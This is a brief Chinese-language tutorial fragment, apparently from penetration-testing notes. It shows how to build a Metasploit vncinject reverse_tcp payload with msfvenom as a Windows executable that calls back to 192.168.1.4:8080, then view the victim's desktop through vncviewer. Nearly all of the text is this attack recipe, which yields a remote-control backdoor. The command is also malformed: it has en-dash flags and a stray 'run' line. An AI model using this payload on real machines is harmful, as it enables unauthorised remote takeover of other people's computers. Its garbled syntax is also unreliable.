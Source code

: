 选择windows/x64/vncinject/reverse_tcp，设置AUTOVNC为false，run之后，再开启vncviewer

配置如下
```
msfvenom –p windows/x64/vncinject/reverse_tcp
AUTOVNC=false
LHOST=192.168.1.4
LPORT=8080
–f exe
–o 192.168.1.4-8080.exe
run
```
目标主机执行payload后，监听器需成功接收反连，然后打开vncviewer，访问127.0.0.1:5900